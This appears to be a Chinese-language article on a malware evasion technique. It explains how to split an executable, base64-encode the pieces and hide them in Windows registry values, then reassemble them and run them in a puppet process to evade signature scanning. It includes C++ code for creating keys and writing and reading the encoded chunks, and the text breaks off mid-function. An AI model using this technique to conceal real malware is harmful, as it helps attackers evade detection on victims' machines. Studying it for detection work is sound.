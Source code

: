 # 恶意软件隐身术：把可执行文件隐藏在注册表里

本文主要描述了一个并不多见的恶意软件编写技术：把可执行代码隐藏在windows注册表里。这个技术需要我们把可执行文件的一部分或者入口写进注册表里，然后加载并执行它。这种技术意在隐藏二进制文件潜在的恶意功能，取而代之的是分散在windows注册表里的键值，最终使得恶意二进制文件难以被检测。实际上，键值里的可执行代码被加载的时候，会进行随机次数的编码（重编码），使得特征码扫描更加困难。好的检测策略是监控进程加载数据过程，而不是扫描注册表。

0x00 存储文件到注册表
=============

* * *

第一步涉及到把文件导入注册表，文件将被分割多个小部分，并写入到注册表键值中。接下来文件将被提取、重组，最终在一傀儡进程里得以执行。有多个方法实现这一过程。注册表有多种不同的键值类型，足以存储多种格式的数据，包括物理二进制数据、32/64位数值、字符串。实际操作中，文件将被BASE64编码以字符串（`REG_SZ`）形式被存入注册表。

把数据导入到注册表中非常简单。首先通过`RegCreateKeyEx`打开键值句柄，`RegCreateKeyEx`的功能是打开一个存在的键值句柄或者创建一个键值句柄，然后通过`RegGetValue and RegSetValueEx`来进行读取和写入操作。具体操作参见以下代码：

```
const HKEY OpenRegistryKey(const char * const strKeyName, const bool bCreate = true)
{
HKEY hKey = nullptr;
DWORD dwResult = 0;

LONG lRet = RegCreateKeyExA(HKEY_CURRENT_USER, strKeyName, 0,
    nullptr, 0, KEY_READ | KEY_WRITE | KEY_CREATE_SUB_KEY,
    nullptr, &hKey, &dwResult);

if (lRet != ERROR_SUCCESS)
{
    fprintf(stderr, "Could not create/open registry key. Error = %X\n",
        lRet);
    exit(-1);
}

if (bCreate && dwResult == REG_CREATED_NEW_KEY)
{
    fprintf(stdout, "Created new registry key.\n");
}
else
{
    fprintf(stdout, "Opened existing registry key.\n");
}

return hKey;
}

void WriteRegistryKeyString(const HKEY hKey, const char * const strValueName,
const BYTE *pBytes, const DWORD dwSize)
{
std::string strEncodedData = base64_encode(pBytes, dwSize);

LONG lRet = RegSetValueExA(hKey, strValueName, 0, REG_SZ, (const BYTE *)strEncodedData.c_str(), strEncodedData.length());
if (lRet != ERROR_SUCCESS)
{
    fprintf(stderr, "Could not write registry value. Error = %X\n",
        lRet);
    exit(-1);
}
}
const std::array<BYTE, READ_WRITE_SIZE> ReadRegistryKeyString(const char * const strKeyName,
const char * const strValueName, bool &bErrorOccured)
{
DWORD dwType = 0;
const DWORD dwMaxReadSize = READ_WRITE_SIZE * 2;
```